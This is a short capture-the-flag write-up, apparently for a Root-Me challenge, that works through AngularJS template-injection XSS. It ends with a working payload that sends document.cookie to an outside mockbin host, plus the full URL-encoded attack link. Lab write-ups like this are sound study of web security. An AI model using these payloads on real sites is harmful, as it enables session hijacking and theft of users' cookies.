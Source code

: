 # XSS - AngularJS

## Initial Attempt

```javascript
'; alert(1); var s='
```

Problem: quotes are removed from the input, and so are the angular brackets

## Constructor via Angular

Achieve XSS through this payload

```javascript
{{constructor.constructor("alert(1)")()}}
```

Replace with fetch mockbin

```javascript
{{constructor.constructor("fetch('https://b5e02d613ca44b7384e0290125a1448e.api.mockbin.io/')")()}}
```

Problem: [SyntaxError:] missing ) after argument list. I do not know what this means honestly.

## Classic document location

So, I had to experiment a bit with escaping the quotes and all, this payload seems to do the trick

```javascript
{{constructor.constructor(&#x27;document.location="https://b5e02d613ca44b7384e0290125a1448e.api.mockbin.io/"+document.cookie&#x27;)()}}
```

Payload

```text
http://challenge01.root-me.org/web-client/ch35/index.php?name=%7B%7Bconstructor.constructor%28%26%23x27%3Bdocument.location%3D%22https%3A%2F%2Fb5e02d613ca44b7384e0290125a1448e.api.mockbin.io%2F%22%2Bdocument.cookie%26%23x27%3B%29%28%29%7D%7D
```
